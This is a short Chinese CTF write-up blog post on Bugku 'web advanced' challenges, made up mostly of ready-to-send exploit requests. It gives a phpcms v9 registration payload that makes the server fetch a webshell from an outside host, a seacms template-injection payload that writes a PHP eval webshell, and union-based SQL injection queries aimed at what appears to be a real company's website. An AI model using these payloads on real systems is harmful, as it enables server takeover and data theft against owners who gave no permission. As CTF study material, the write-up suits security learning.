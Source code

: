 title: bugku的web进阶
author: Qianye
abbrlink: b1db4319
tags:
  - ctf
categories: []
date: 2018-03-07 23:32:00
---
一些cms网站的实战，挺多不会做的，以后再来补做一下。
<!-- more -->
# phpcmsv9
直接给poc</br>
post请求
```bash
http://120.24.86.145:8001/index.php?m=member&c=index&a=register&siteid=1  


siteid=1&modelid=11&username=q12w312415&password=12w121346&email=wwq1w3124156@qq.com&info[content]=<img src=http://p4gdp8beq.bkt.clouddn.com/qy.txt?.php#.jpg>&dosubmit=1&protocol=  
```
注意，src为一句话文本的地址，每次请求用户名，邮箱都要改变


# 海洋cms
[seacms6.45漏洞利用](http://blog.csdn.net/qq_35078631/article/details/76595817)</br>
[seacms6.55漏洞任意执行](http://www.freebuf.com/vuls/150303.html)</br>
[phpinfo()中的一些重要信息](http://www.php.cn/php-weizijiaocheng-359309.html)</br>
不会插入一句话，请教了舍友。POST请求
```BASH
http://120.24.86.145:8008/search.php?searchtype=5




searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&ver=OST[9]))&9[]=fwrite(&9[]=fopen('QIANYE.php','w')&9[]=,'<?php eval($_POST["QIANYE"]);?>');
```
# sql实战注入2

用椰树扫一下找到注入点</br>
查看字段数
```bash
http://www.kabelindo.co.id/readnews.php?id=99999999 order by 5 %23
```
一开始只列出本网站数据库的表名，把最后一个表名添加上去，一直显示错误。最后，才明白要列出本数据库中表名的最后一个才是。</br>
列出mysql数据库中所有的表名
```bash
http://www.kabelindo.co.id/readnews.php?id=99999999 union select 1,2,3,table_name,4 from information_schema.tables
```
# sql实战1